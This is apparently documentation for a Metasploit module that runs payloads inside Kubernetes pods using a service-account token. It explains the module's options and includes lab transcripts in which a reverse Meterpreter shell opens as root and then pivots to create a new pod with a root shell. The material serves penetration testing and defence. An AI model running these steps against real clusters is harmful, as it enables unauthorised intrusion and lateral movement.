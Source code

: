 ## Vulnerable Application

### Description

Execute a payload within a Kubernetes pod.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/kubernetes/exec`
3. Set the required options
4. Do: `run`
5. You should get a shell.

## Options

### SESSION
An optional session to use for configuration. When specified, the values of `NAMESPACE`, `TOKEN`, `RHOSTS` and `RPORT`
will be gathered from the session host. This requires that the session be on an existing Kubernetes pod. The necessary
values may not always be present.

Setting this option will also automatically route connections through the specified session.

### TOKEN
The JWT token. The token with the necessary privileges to access the exec endpoint within a running pod and optionally
create a new pod.

### POD
The pod name to execute in. When not specified, a new pod will be created with an entrypoint that allows it to run
forever. After creation, the pod will be used to execute the payload. **The created pod is not automatically cleaned
up.** A note containing the created pod's information will be added to the database when it is connected.

### NAMESPACE
The Kubernetes namespace that the `TOKEN` has permissions for and that `POD` either exists in or should be created in.

### SHELL
The shell to use for execution. `bash` is likely preferred from a usability perspective, but is not present as often as
`sh` is.

### TARGET
#### Interactive WebSocket
Communicate directly with the pod using the Kubernetes WebSocket API. This is the most similar option to the `kubectl
exec --stdin --tty` command. No Metasploit payload is transferred to the target.

### Unix Command
Run the specified command payload and read the output. Custom commands can be run with the `cmd/unix/generic` payload.

### Linux Dropper
Use a command stager to transfer a Metasploit payload to the target and execute it. This will result in the payload
being written to disk and will require potentially non-standard binaries to be present on the remote system, depending
on the selected `CMDSTAGER::FLAVOR` option.

### Python
Run a Python payload on the remote host. This technique will automatically find and use either a `python`, `python3`, or
`python2` binary on the remote system to use for execution.

## Scenarios

### Kubernetes v1.22.1
In this scenario, Metasploit has direct access to the Kubernetes API. A known token is used to execute a Python payload
within the `thinkphp-67f7c88cc9-tgpfh` pod.

```
msf6 > use exploit/multi/kubernetes/exec 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > set TOKEN eyJhbGciOiJSUzI1...
TOKEN => eyJhbGciOiJSUzI1...
msf6 exploit(multi/kubernetes/exec) > set POD thinkphp-67f7c88cc9-tgpfh
POD => thinkphp-67f7c88cc9-tgpfh
msf6 exploit(multi/kubernetes/exec) > set RHOSTS 192.168.159.31
RHOSTS => 192.168.159.31
msf6 exploit(multi/kubernetes/exec) > set TARGET Python 
TARGET => Python
msf6 exploit(multi/kubernetes/exec) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
msf6 exploit(multi/kubernetes/exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
```

Next, the compromised session is used to access the internal Kubernetes endpoint, create a new pod and open a shell
directly via a WebSocket.

```
msf6 exploit(multi/kubernetes/exec) > set TARGET Interactive\ WebSocket
TARGET => Interactive WebSocket
msf6 exploit(multi/kubernetes/exec) > run RHOST="" RPORT="" POD="" SESSION=-1

[*] Routing traffic through session: 1
[+] Kubernetes service host: 10.96.0.1:443
[*] Using image: busybox
[+] Pod created: burhgvzc
[*] Waiting for the pod to be ready...
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.31:59437 -> 10.96.0.1:443) at 2021-10-01 10:05:57 -0400

id
uid=0(root) gid=0(root) groups=10(wheel)
pwd
/
```
